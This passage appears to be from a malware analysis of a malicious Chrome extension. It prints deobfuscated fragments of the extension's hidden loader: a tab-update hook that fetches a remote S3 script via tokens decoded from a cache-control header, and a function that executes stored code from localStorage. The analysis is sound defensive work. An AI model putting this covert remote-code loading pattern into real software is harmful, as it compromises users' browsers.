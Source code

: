 `e` is the function Chrome will fire whenever a tab gets updated (title change, address, change, etc.).

```js
function e(a, b, c) {
    b.url && (b.url.indexOf("vimeo.com") > -1 && chrome.tabs.sendMessage(a, "url_changed");
              
    A || (setTimeout(function() {
        D.findDetails();
    }, 1500), B.getMediaPath()))
    
    // ABOVE REWRITTEN
    /*
    	if (!A) {
    		setTimeout(function() {
    			D.findDetails();
    		}, 1500);
    		B.getMediaPath();
    	}
    */
}
```

The line to focus on here is when `setTimeout` is called. If `A` is false, meaning we have not executed the malicious script from S3 yet, then the extension would to first call `getMediaPath` and then execute `findDetails` `1500ms` later. If you recall from before, `getMediaPath` decodes the string attached in `cache-control` and then constructs a JSON object that contains the tokens needed to perform an AJAX call to get the malicious S3 script. `A` is then set to true in `getMediaPath`. This disables the script from rerunning the malicious script whenever any tab gets updated.

Assuming that step completes in `1500ms`, then `findDetails` executes the S3 script itself. The S3 script itself remains a mystery (more on this later).

```js
findDetails: function() {
    if ("undefined" != typeof ee) {
        var a = "cfg_audio_id";
        localStorage[a] && window[ee](localStorage[a]);
        delete localStorage[a]
    }
}
```

## Summary

What was described was pretty confusing, so I will try my best to summarize this.

The process of pinging `counter.users-analytics.com` to calling `setMediaPath` happens all at once right when the browser starts up. All necessary libraries and function calls are made to set up the environment for the extension to work, including its malicious behavior. All this described above happens within the extension page itself (background HTML file for extension).

Below is a diagram that describes the order of events that the script fires.
